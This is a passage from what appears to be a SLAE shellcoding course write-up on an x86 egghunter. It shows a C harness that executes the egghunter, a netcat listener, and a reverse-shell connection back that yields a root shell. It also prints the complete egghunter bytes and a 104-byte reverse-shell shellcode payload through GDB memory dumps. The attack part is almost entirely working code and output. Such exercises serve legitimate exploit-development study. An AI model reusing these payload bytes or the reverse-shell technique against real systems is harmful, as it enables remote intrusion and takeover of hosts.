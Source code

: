 
	int (*ret)() = (int(*)())egghunter;
	ret();

    free(badbuffer);

}

{% endhighlight %}

If we compile our egghunterdemo.c using `gcc -g egghunterdemo.c -o egghunterdemo`,
start a netcat listener on port 4444 (as our shellcode is a reverse shell) using
`netcat -nlvp 4444` and then execute our egghunter using `./egghunterdemo` we
will see that we indeed get a connection back from our shellcode~

{% highlight bash %}

root@blahblah:~/shared/SLAE/slae/exercise3# nc -nlvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37323
id
uid=0(root) gid=0(root) groups=0(root)

{% endhighlight %}


To prove that there is nothing up our sleves, lets hook GDB and inspect where
everything is in memory.

Right before we execute our egghunter the memory is laid out as such:

### Egghunter

{% highlight bash %}

(gdb)  x/40xb egghunter
0x8049880 <egghunter>:	    0x31	0xd2	0x66	0x81	0xca	0xff	0x0f	0x42
0x8049888 <egghunter+8>:	0x8d	0x5a	0x04	0x6a	0x21	0x58	0xcd	0x80
0x8049890 <egghunter+16>:	0x3c	0xf2	0x74	0xee	0xb8	0x50	0x90	0x50
0x8049898 <egghunter+24>:	0x90	0x89	0xd7	0xaf	0x75	0xe9	0xaf	0x75
0x80498a0 <egghunter+32>:	0xe6	0xff	0xe7	0x00	0x00	0x00	0x00	0x00

{% endhighlight %}

### Shellcode Buffer

{% highlight bash %}
(gdb) x/104xb badbuffer
0x804a008:	0x50	0x90	0x50	0x90	0x50	0x90	0x50	0x90
0x804a010:	0x31	0xc0	0xb0	0x66	0x31	0xdb	0xb3	0x01
0x804a018:	0x31	0xc9	0x51	0x53	0x6a	0x02	0x89	0xe1
0x804a020:	0xcd	0x80	0x31	0xff	0x89	0xc7	0x31	0xc0
0x804a028:	0xb0	0x66	0x31	0xc9	0xb9	0x80	0x01	0x01
0x804a030:	0x02	0x81	0xe9	0x01	0x01	0x01	0x01	0x51
0x804a038:	0x66	0x68	0x11	0x5c	0x43	0x66	0x53	0x89
0x804a040:	0xe1	0x6a	0x10	0x51	0x57	0x89	0xe1	0x43
0x804a048:	0xcd	0x80	0x31	0xc9	0xb1	0x02	0x31	0xc0
0x804a050:	0xb0	0x3f	0xcd	0x80	0x49	0x79	0xf9	0x31
0x804a058:	0xc0	0xb0	0x0b	0x31	0xdb	0x53	0x68	0x2f
0x804a060:	0x2f	0x73	0x68	0x68	0x2f	0x62	0x69	0x6e
0x804a068:	0x89	0xe3	0x31	0xc9	0x31	0xd2	0xcd	0x80

{% endhighlight %}
